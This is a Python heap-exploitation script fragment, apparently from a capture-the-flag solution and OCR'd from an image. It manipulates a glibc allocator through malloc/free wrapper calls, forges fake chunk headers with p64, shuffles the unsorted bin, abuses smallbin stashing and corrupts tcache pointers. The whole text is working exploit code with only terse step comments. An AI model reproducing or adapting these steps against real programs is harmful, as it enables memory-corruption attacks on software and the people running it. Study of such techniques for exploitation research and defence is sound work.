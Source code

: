 ```python
free("SF1")
malloc(0x1b0,"TEMPCHUNK","tmp1")

free("r8")
malloc(0x2d8,"TEMPCHUNK","tmp1")

# SHUFFLING UNSORTED BIN
malloc(0x500,b"SHUFFLE","shuf")
free("shuf")

# PUTTING THE TCACHE PTR IN PLACE BY ALLOCATING TO SMALLBIN
# AND USING THE SMALLBIN STASHING PROCEDURE
malloc(0x268,"OCCUPY","t280")

free("POP")
fake_chnk = p64(0x0) + p64(0x581) + 0x578*b"a" + p64(0x31)
malloc(0x600,fake_chnk,"POP2",offset=0x70)

free("tfill7")

free("s8")

free("r8")
malloc(0x2e8,"TEMPCHUNK","tmp2")

# SHUFFLING UNSORTED BIN
malloc(0x500,b"SHUFFLE","shuf2")
free("shuf2")

# USING TCACHE ALLOCATIONS
for i in range (7):
    malloc(0x288,"FILLER",f"W{i}")

# DOING A SMALLBIN STASH BY REQUESTING SMALLBIN SIZE
free("c1")
fake_chnk = b"\xa0\xa1"
malloc(0x490,fake_chnk,"c1.1",offset=0x88)

malloc(0x288,"CHUNK1","CH0")
malloc(0x288,"CHUNK2","P2")

# WRITING A SIZE FIELD TO GET A PERSISTENT ALLOCATION IN THE CHUNK
payload = p64(0x1a1)
malloc(0x288,payload,"Q1",offset=0x28)

malloc(0x288,"CHUNK3","CH1")

# GOING HAM ALL OVER AGAIN
for i in range (7):
    free(f"W{i}")

# CORRUPTING TCACHE 0X2d0 TO SET POINTERS
free("POP2")
fake_chnk = p64(0x0) + p64(0x581) + 0x578*b"a" + p64(0x41)
malloc(0x600,fake_chnk,"POP3",offset=0x70)

free("r8")
malloc(0x2a1,"SOMETHING","tmp2")

malloc(0x2c8,"LOWPTR","LOWPTR")

free("LOWPTR")

```